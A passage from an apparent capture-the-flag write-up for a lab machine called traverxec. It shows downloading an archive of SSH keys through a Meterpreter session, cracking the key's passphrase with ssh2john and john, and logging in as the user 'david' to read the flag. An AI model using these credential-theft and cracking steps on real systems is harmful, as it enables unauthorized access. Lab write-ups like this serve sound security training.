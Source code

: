 ```
[*] Downloaded 1.87 KiB of 1.87 KiB (100.0%): ./backup-ssh-identity-files.tgz -> .//backup-ssh-identity-files.tgz
[*] download   : ./backup-ssh-identity-files.tgz -> .//backup-ssh-identity-files.tgz
meterpreter > 
```

We can download the `backup-ssh-identity-files.tgz` file through our Meterpreter session, and then extract it on our Kali box.


```
root@kali:~# tar -zxvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub

```

When we try and use the keys we'll see that David has set a password required to unlock them, annoying. Using `ssh2john` we can create a hash of the private key to use to brute force the key through john.

```
root@kali:~/home/david/.ssh# python ~/Tools/ssh2john.py id_rsa > id_rsa_hash
root@kali:~/home/david/.ssh# ls -lah
total 24K
drwx------ 2 1000 1000 4.0K Dec 15 19:55 .
drwxr-xr-x 3 root root 4.0K Dec 12 20:27 ..
-rw-r--r-- 1 1000 1000  397 Oct 25 17:02 authorized_keys
-rw------- 1 1000 1000 1.8K Oct 25 17:02 id_rsa
-rw-r--r-- 1 root root 2.5K Dec 15 19:55 id_rsa_hash
-rw-r--r-- 1 1000 1000  397 Oct 25 17:02 id_rsa.pub
root@kali:~/home/david/.ssh# john id_rsa_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
1g 0:00:00:06 DONE (2019-12-15 19:56) 0.1547g/s 2220Kp/s 2220Kc/s 2220KC/sa6_123..*7¡Vamos!
Session completed
root@kali:~/home/david/.ssh# 
```

After running john and the `rockyou.txt` wordlist to try and crack the key, we get `hunter`. Now that we've got the got the keys and the credentials to use them, we can ssh in as David and grab the flag.

```
root@kali:~/home/david/.ssh# ssh david@traverxec.htb

Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Sun Dec 15 19:54:38 2019 from 10.10.15.105
david@traverxec:~$ 
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cat user.txt
7db0b48469606a42cec20750d9782f3d
```
